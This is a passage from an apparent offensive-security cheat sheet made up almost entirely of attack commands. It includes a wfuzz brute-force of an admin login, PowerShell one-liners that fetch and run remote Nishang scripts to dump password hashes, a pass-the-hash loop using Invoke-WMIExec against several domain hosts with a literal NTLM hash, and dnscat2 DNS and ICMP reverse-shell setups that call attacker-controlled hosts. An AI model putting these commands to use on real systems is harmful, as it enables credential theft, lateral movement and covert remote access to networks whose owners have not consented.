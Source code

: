 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
  

  
<b> Get Hashes </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes</pre>

  ![image](https://user-images.githubusercontent.com/7115563/34455769-66cb31bc-ed86-11e7-846e-090647d8e32f.png)
  
  
<b> Check Pass The Hash with multiple servers</b>

<pre>$hosts = @("SVDC1.LAZULI.CORP","SVFILES.LAZULI.CORP","SVHOST1.LAZULI.CORP","SVHOST2.LAZULI.CORP","SVFILES2.LAZULI.CORP")

foreach ($h in $hosts){ Invoke-WMIExec -Target $h -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "hostname" -Verbose }

</pre>

![image](https://user-images.githubusercontent.com/7115563/34455798-0bdc77ec-ed87-11e7-9504-6b9ec6fc2a8d.png)

References: https://www.hacklikeapornstar.com/
  


<a name="revshells"></a><h2> Reverse Shells </h2>

<a name="dns"></a><h3> Reverse DNS Shell with dnscat powershell </h3>

<b> Server </b>

<pre>ruby dnscat2.rb -e open --no-cache tunnel.domain.com</pre>


<b> Client </b>

<pre>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1'); Start-Dnscat2 -Domain tunnel.domain.com -DNSServer 8.8.4.4 </pre>


![dns](https://user-images.githubusercontent.com/7115563/35040679-5a155bfa-fb82-11e7-98ec-ba015e3ad69c.png)

Reference: https://github.com/lukebaggett/dnscat2-powershell


<a name="icmp"></a><h3> Reverse ICMP shell </h3>

<b> Server </b>

<pre> python icmpsh_m.py [IP atacante] [IP victima] </pre>

<b> Client </b>

<pre>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1'); Invoke-PowerShellIcmp -IPAddress [IP atacante]</pre>

```